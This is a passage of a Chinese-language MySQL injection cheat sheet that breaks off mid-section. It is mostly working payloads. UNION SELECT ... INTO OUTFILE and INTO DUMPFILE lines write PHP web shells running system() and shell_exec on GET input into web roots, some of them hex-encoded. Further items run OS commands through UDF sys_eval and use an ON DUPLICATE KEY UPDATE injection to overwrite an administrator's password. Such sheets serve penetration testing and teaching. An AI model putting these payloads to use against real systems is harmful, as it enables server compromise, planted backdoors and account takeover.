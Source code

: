 ### WEBSHELL - OUTFILE方法

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- - 
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### WEBSHELL - DUMPFILE方法

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

### COMMAND - UDF库

首先需要检查服务器上是否安装了UDF。

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

然后可以使用`sys_exec`和`sys_eval`等函数。

```sql
$ mysql -u root -p mysql
Enter password: [...]

mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```


## MySQL插入

`ON DUPLICATE KEY UPDATE`关键字用于告诉MySQL当应用程序尝试插入已经存在于表中的行时应该怎么做。我们可以利用这个来更改管理员密码：

使用负载进行注入：

```sql
attacker_dummy@example.com", "P@ssw0rd"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" --
```

查询将如下所示：
